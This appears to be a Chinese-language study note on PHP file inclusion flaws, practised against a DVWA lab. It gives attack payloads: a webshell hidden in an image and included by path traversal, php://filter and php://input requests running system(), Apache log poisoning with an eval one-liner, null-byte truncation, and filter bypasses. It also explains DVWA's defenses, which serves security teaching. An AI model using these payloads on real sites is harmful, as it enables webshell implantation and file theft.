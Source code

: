 #文件包含类
<br>
*在PHP程序中出现较多，其他的较少

##文件包含漏洞分类及上传技巧

* 包含漏洞简介：<br>
  包含操作，在大多数web语言中都会提供的功能（比如包含一些跨站、防注入程序等），但PHP对于包含文件所提供的功能太强大、灵活，所以包含漏洞经常出现在PHP语言中，这也就导致出现了一个错误现状，很多初学者认为包含漏洞只出现在PHP语言之中，殊不知在其他语言中可能出现包含漏洞。这也应了一句老话：功能越强大，漏洞就越多。

*  PHP包含漏洞分类<br>
   包含漏洞不是语言的问题，而是人的思维问题！<br>
   PHP中的四个包含文件函数：include() , include_once() , require() 和 require_once() （在源码审计中，一定要留心有没有这四个函数，有的话过滤是不是严格有没有漏洞）。<br>
   下面我们一起来看PHP文件中的包含：
   + 1、本地包含LIF（一般）
   + 2、远程包含RLF，必须要PHP的配置文件PHP.XXX中有allow_url_include = on

###0X00 PHP本包含实例<br>
   * 当任何文件上传成功后，被以上四种PHP包含函数包含后，无论是什么文件格式，都会以PHP格式解析。所以如果在文件中插了木马，这个时候就很危险了。

###0X01 本地包含漏洞与图片结合<br>
   1. 将木马程序加载到图片里面去:
	   + 打开一张正常图片
	   + 随便找一个木马
	   + 使用edjpgcom.exe软件将木马插入到图片中
   2. 将图片上传，一般网站都不会拦截（此时图片还是可以正常打开的）
   3. 通过存在包含漏洞的页面来包含刚上传带一句话木马的图片
   4. ！！！【一定要注意相对路径】，page=../../hackable/uploads/test.jpg

###0X02 PHP远程包含实例
   1. 首先打开C:\php\php-5.2.14-win32\php-apache2handler.ini文件（大家的文件路径不一定是这个，大家一般的路径是php.ini），找到allow_url_include = off这一行，【把off改成on】
   2. 然后找到存在包含漏洞的页面，将包含函数的参数改为远程的一个页面（远程地址），如page = http://192.168.1.103:8080/index.asp，能看到直接运行起来了。如果index.asp是一个木马呢或者是一个php的木马页面呢？是不是也能运行起来，很危险了吧。



##文件包含读写文件

###0X03 PHP包含读文件
* 如： http://192.168.2.55:8080/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=x.php , 访问URL，得到经过base64加密后的字符串。经解密还原即可得到x.php。
* 【page(参数)=php://filter/read=convert.base64-encode/resource=xXX.php】有时候需要将read变成大写Read来绕过一些过滤，如sctf的homework
* http的内置协议是php协议php://filter
* 【条件】：一定要有GET传入 $_GET

###0X04 PHP包含写文件
*  构造URL: http://192.168.1.55:8080/dvwa/vulnerabilities/fi/?page=php://input ， 并且提交post数据为<?php system('netuser');?>?????【即自己要写入的内容】
*  ！！【注意】：只有allow_url_include为on的时候才可以使用，如果想查看回显结果那必须在C:\php\php-5.2.14-Win32下找到php-apache2handler.ini打开，查找dispaly_funtions=proc-open,oppen.exec.system......（这些都是危险的命令，一定不要打开。因为一般写web程序用不到这些命令，建议直接删掉）删掉sysytem重启Apache。

###0X05 PHP包含日志文件
* 当某个PHP文件存在本地包含漏洞，而却无法上传正常文件，这就意味着有包含漏洞却不能拿来利用，这时攻击者就有可能会利用Apache日志文件来入侵。
* Apache服务器运行后会生成两个日志文件，这两个文件是access.log（访问日志）和（错误日志），Apache的日志文件记录下我们的任何操作，并且写到访问日志文件access.log之中（时间、IP地址）
* 当没有开启远程包含、文件上传时，只能通过包含日志文件了<br>
  (必须要知道当前网页路径和日志的默认路径，然后来构造)
  1. 先在网址后面接/php<?php eval一句话木马?>访问，日志access.log会记录这一行为
  2. 包含日志文件access.log。【这一步必须要知道当前网页路径和日志的默认路径，然后来构造】
     + 构造：http://......./fi/?page=../../../../Apache-20/logs/access.log
     + 确保当前网站目录的../../../../的最终目录与Apache-20文件夹在一个目录下。
   3. 访问，看到页面上出现一句话木马。菜刀链接即可。

###0X06 截断包含
* 
```
<?php
   if(isset($_GET['page'])){
      include $_GET['page'].".php";
   }else{
      include 'home.php';
   }
?>
```
* 这种方法只适合magic quotes gpc=off的时候，在PHP的老版本中也是存在着一些其他的截断问题，不过现在已经很难见到了，比如：index.php?file=info.txt////......超过一定数据的/。
* 例如： ....../?page=1.jpg%00即可

###0X07 PHP内置协议
* PHP带有很多内置URL风格的封装协议，可用于类似fopen()、copy()、file_exists()和filesize()的文件系统函数
* 具体协议请参照http://www.php.net/manual/zh/wrappers.php
* 图片1

###0X08 PHP远程包含防御
* 以DVWN-File Inclusion为例，安全级别低中高
  + low:

    ```
    <?php $file = $_GET['page']; //The page we wish to display ?>
    ```
  + Medeium:

    ```
    <? php
       $file = $_GET['page']; //The page we wish to display
       //bad input validation
       $file = str_replace("http://"," ", $file); //在传入的$file中搜索http://，替换成空格后，重新赋给$file
       $file = str_replace("https://"," ", $file); // 易绕过，函数str_replace区分大小写，一旦大写等于没做防御
    ?>
   + High:

     ```
     <? php
        $file = $_GET['page']; //The page we wish to display 
        //Only allow include.php
        if ($file != "include.php"){
           echo "ERROR: File not found";
           exit;
        }
      ?>

###运用实例：
* 从网上下载copyright2007-2011 易酷CMS Some Rights Reserved版本到本地测试
* 漏洞利用过程（包含日志文件）： http://www.wooyun.org/bugs/wooyun-2010-061639
* 在本地模拟这些实验